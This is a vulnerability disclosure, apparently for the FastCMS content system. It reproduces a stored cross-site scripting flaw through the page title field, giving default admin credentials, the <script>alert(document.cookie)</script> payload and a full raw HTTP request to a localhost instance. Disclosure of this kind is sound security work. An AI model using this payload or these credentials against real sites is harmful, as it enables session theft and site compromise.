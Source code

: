 CMS:https://github.com/my-fastcms/fastcms/

Vulnerability url:http://127.0.0.1:8080/fastcms/api/admin/page/save

POST form-data parameter title="payload" exists stored cross-site scripting

Copy Steps 

1.Go to administrator login

http://127.0.0.1:8080/fastcms/

Default Admin Access Information Username: admin / Password: 1

2.Click on "Page" and click on "New Page"
![295873542-05741a25-8139-4c89-bb98-101c97e4f93e](https://github.com/biantaibao/XSS/assets/131763503/16ed9fd1-b9ce-405a-9b79-b5488485c902)


3.Put Payload into the title parameter

Payload:<script>alert(document.cookie)</script>
![image](https://github.com/biantaibao/XSS/assets/131763503/5bbafc53-ae85-47f1-8481-3994fa3c35af)

4.Click on Save

Transmission packet

POST /fastcms/api/admin/page/save HTTP/1.1

Host: 127.0.0.1:8080

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0

Accept: application/json, text/plain, /

Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2

Accept-Encoding: gzip, deflate

Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJhdXRoIjoiMSIsInVzZXJJZCI6MSwidXNlcm5hbWUiOiJhZG1pbiIsImV4cCI6MTcwNDk4MjgzNX0.BqRd5hHJ5rZQHfCwR1JwyaQT_iyFPyhbBIes1Paj-eg

ClientId: 5986012cabe54397a001bf61b4d88706

Content-Type: application/x-www-form-urlencoded

Content-Length: 305

Origin: http://127.0.0.1:8080

Connection: close

Referer: http://127.0.0.1/fastcms.html

Cookie: Hm_lvt_2f24154b3f87697d36a4e2a638b68aaa=1704782281; JSESSIONID=36080a69-5232-4088-85be-6074f45e49e2; Hm_lpvt_2f24154b3f87697d36a4e2a638b68aaa=1704782281; Hm_lvt_f8cddee34ca21f05373a9388cfdd798b=1704964823; Hm_lpvt_f8cddee34ca21f05373a9388cfdd798b=1704966995

id=3&createUserId=1&title=%3Cscript%3Ealert%28document.cookie%29%3C%2Fscript%3E&path=11&contentHtml=%3Cp%3E1%3C%2Fp%3E&outLink=&seoKeywords=1&seoDescription=1&summary=11&thumbnail=&style=&status=publish&suffix=&viewCount=0&commentEnable=false&created=&updated=&url=http%3A%2F%2F192.168.43.1%3A8080%2Fp%2F3

5.Payload will trigger when a user visits on http://127.0.0.1:8080/p/3
![image](https://github.com/biantaibao/XSS/assets/131763503/beb9c9c6-ca5c-46cb-818b-3103a0f4be33)


